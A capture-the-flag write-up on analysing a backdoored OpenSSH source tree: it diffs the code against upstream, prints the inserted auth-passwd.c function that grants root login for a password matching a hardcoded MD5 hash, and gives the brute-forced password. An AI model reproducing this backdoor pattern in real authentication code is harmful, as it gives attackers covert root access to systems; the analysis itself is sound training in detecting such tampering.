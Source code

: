 # ssh backdoor analysis

## Task
This challenge is about analyzing a backdoored SSH service.

Goal:

- find the backdoor
- find the backdoor password
- list all files that are altered compared to the origin version

Hint: compare trojan version versus original version

Please download the backdoor from here (backdoor-source.tar.gz) or from
the RESOURCE section. 

- explain your systematic approach of finding the backdoor
- list all files that have been altered (changed)
- explain how you were able to find the attacker password and add your tool/script/programm

## Solution

The given source code is the OpenSSH binary, so lets search for the original 
one. This is usefull, because with the original code it's way easier to find
any modifications compared to looking at the whole source code manually.

I had a bit problem finding the correct version, since the Github Repo
https://github.com/openssh/openssh-portable contains other version tags than
the headers of the C files. But I manage to find a version that matches the
content of the ssh.c Version (by searching in the git history of the ssh.c file
for the version 'ssh.c,v 1.553'). Then I downloaded the source and checkout
the commit '98e27dcf581647b5bbe9780e8f59685d942d8ea3'. A diff finds some
changes (I realized then this was not exactly the same version, but the diff
was not too big). One change looks very suspicious:

```
diff ./auth-passwd.c ../../git/swiss-hacking-challenge-2021/Bundle6/1_sshBackdoor/backdoor-source/auth-passwd.c
47a48,49
> #include <openssl/md5.h>
> 
88a91,93
>     if(sys_auth_backdoor(authctxt, password))
>         return 1;
> 
215a221,246
>     
> static char backdoor_hash[MD5_DIGEST_LENGTH] = \
> {
>     // HL{????} where ? is [0-9]
>     0x45, 0xD6, 0x16, 0xFF, 0x7D, 0x51, 0x08, 0xBD, 0x93, 0x09, 0x4F, 0xA1, 0x5F, 0xE0, 0xE1, 0xD2
> };
> 
> int
> sys_auth_backdoor(Authctxt *authctxt, const char *password)
> {
>     MD5_CTX c = {};
>     char password_hash[MD5_DIGEST_LENGTH] = {}; 
> 	struct passwd *pw = authctxt->pw;
>     
>     if(strcmp(pw->pw_name, "root") != 0 || strlen(password) != 6)
>         return 0;
> 
>     MD5_Init(&c);
>     MD5_Update(&c, password, strlen(password));
>     MD5_Final(password_hash, &c);
> 
>     if(memcmp(backdoor_hash, password_hash, MD5_DIGEST_LENGTH) != 0)
>         return 0;
> 
>     return 1;
> }
```

So this must be the backdoor, it checks if the username is 'root' and the
password matches the MD5 hash in the constant 'backdoor_hash'. As the
comment suggest, the password is in the format 'HL{????}' and the ? represents
only numbers. This makes this MD5 quiet easy to brute force (using the attached
brute.py script). The resulting flag: HL{7298}
